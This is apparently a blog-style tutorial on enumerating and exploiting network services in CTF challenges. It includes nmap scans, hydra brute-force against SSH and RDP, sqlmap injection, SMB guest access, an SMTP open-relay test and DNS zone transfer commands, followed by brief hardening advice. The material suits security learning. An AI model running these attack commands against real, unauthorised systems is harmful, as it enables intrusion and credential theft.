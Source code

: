 ```yaml
---
title: "Starting Point: A Comprehensive Guide to Network Services Exploitation"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, network exploitation, reconnaissance, recon]
---
```


# Starting Point: A Comprehensive Guide to Network Services Exploitation

Network services are commonly targeted in Capture The Flag (CTF) challenges. Understanding how to enumerate, analyze, and exploit these services is key to solving network-based CTF challenges. This guide provides a step-by-step approach to reconnaissance, vulnerability discovery, and exploitation of network services.

---

## **1. Understanding Network Service Exploitation**

### **What is Network Service Exploitation?**
Network services such as FTP, SMB, SSH, and databases often have misconfigurations or vulnerabilities that attackers can exploit to gain unauthorized access. 

### **Common Network Services in CTFs**
- FTP (File Transfer Protocol)
- SSH (Secure Shell)
- SMB (Server Message Block)
- HTTP (Web Servers & APIs)
- SMTP (Mail Servers)
- DNS (Domain Name System)
- RDP (Remote Desktop Protocol)

---

## **2. Reconnaissance for Network Services**

### **Scanning for Open Ports**
Use `nmap` to identify open ports and running services:
```bash
nmap -sC -sV -p- target-ip
```

For a deeper scan with script detection:
```bash
nmap -A -T4 target-ip
```

### **Banner Grabbing and Version Detection**
Banner grabbing reveals information about service versions:
```bash
nc -v target-ip 21  # FTP
nc -v target-ip 22  # SSH
nc -v target-ip 25  # SMTP
```
Use `telnet` or `curl` for HTTP services:
```bash
telnet target-ip 80
```
```bash
curl -I http://target-ip
```

### **Enumerating Services**
Use `enum4linux` for SMB enumeration:
```bash
enum4linux -a target-ip
```
For SSH brute-force attempts:
```bash
hydra -L users.txt -P passwords.txt ssh://target-ip
```

---

## **3. Exploiting Network Services**

### **Exploiting FTP**
Check for anonymous access:
```bash
ftp target-ip
```
If anonymous login is enabled, list files:
```ftp
ls
```
Try retrieving sensitive files:
```ftp
get backup.zip
```

### **Exploiting SMB**
Enumerate SMB shares:
```bash
smbclient -L \\target-ip\ -U ""
```
Access a share:
```bash
smbclient \\target-ip\public -U guest
```
Search for credentials inside shared files.

### **Exploiting SSH**
If password authentication is enabled, try SSH key brute-force:
```bash
hydra -L users.txt -P passwords.txt ssh://target-ip
```
If you obtain an SSH private key, attempt login:
```bash
ssh -i id_rsa user@target-ip
```

### **Exploiting HTTP Services**
Identify hidden directories:
```bash
gobuster dir -u http://target-ip -w /usr/share/wordlists/dirb/common.txt
```
Exploit vulnerable web applications using SQL injection:
```bash
sqlmap -u "http://target-ip/login.php?user=admin&password=pass" --dbs
```

### **Exploiting SMTP**
Check for open relay:
```bash
nc target-ip 25
HELO attacker.com
MAIL FROM:<attacker@attacker.com>
RCPT TO:<victim@victim.com>
DATA
Test email exploit.
.
QUIT
```
If open relay is allowed, it can be abused for spamming.

### **Exploiting DNS**
Enumerate DNS records:
```bash
dnsrecon -d target-domain.com
```
Check for zone transfer:
```bash
dig axfr @target-ip target-domain.com
```

### **Exploiting RDP**
Check for RDP vulnerabilities using `rdp-sec-check`:
```bash
rdp-sec-check -t target-ip
```
Attempt brute-force using Hydra:
```bash
hydra -L users.txt -P passwords.txt rdp://target-ip
```

---

## **4. Preventing Network Service Exploits**

### **Secure Configuration of Services**
- Disable unused services.
- Restrict access to trusted IPs.
- Use strong authentication methods.

### **Regularly Patch and Update Software**
- Keep software up-to-date.
- Apply security patches.

### **Use Firewalls and IDS/IPS**
- Block unauthorized access.
- Monitor for suspicious network activity.

---

## **Conclusion**

Network service exploitation is a crucial skill in CTFs and real-world penetration testing. By mastering reconnaissance techniques, identifying vulnerabilities, and exploiting misconfigured services, security professionals can gain deeper insights into network security.

🚀 Keep learning and happy hacking!

---

💡 **Want more security insights?** Stay tuned for advanced network exploitation techniques!

